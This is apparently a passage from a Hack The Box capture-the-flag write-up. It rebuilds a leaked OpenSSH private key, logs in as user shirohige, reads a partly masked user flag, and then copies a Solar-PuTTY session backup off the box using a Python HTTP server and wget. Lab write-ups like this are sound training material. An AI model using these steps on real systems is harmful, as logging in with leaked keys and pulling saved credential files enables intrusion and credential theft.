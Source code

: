 ```bash
echo "-----BEGIN OPENSSH PRIVATE KEY-----" > id_rsa
cat clave_lim.txt | fold -w 70 >> id_rsa
echo "-----END OPENSSH PRIVATE KEY-----" >> id_rsa
```

Explanation:
- `echo`: Used to print text to the file. In this case, it adds the necessary headers and footers for the OpenSSH private key.
- `fold -w 70`: Wraps each line to ensure no line exceeds 70 characters in length, which is required for OpenSSH private key formatting.
- `>>`: Appends the output to the file (`id_rsa`), rather than overwriting it.

Once everything is set, we make the private key file secure by adjusting its permissions:

```bash
chmod 600 id_rsa
```

Explanation:
- `chmod 600`: This command restricts access to the file so that only the file's owner can read and write to it, ensuring that the private key is secure.


Paste the SSH key and set proper permissions:

```bash
chmod 600 id_rsa
```

Then, connect via SSH:

```bash
ssh shirohige@instant.htb -i id_rsa
```

We can now retrieve the user flag:

```bash
shirohige@instant:~$ cat user.txt
4da76423903bb0###################
```


## PRIVILEGE ESCALATION
---

Navigating to `/opt/backups/Solar-PuTTY`, we find `session-backup.dat`, which seems interesting. We transfer it to our local machine using a Python server:

```bash
shirohige@instant:/opt/backups/Solar-PuTTY$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

On our local machine, we use `wget`:

```bash
wget http://10.10.11.37:8000/sessions-backup.dat
```
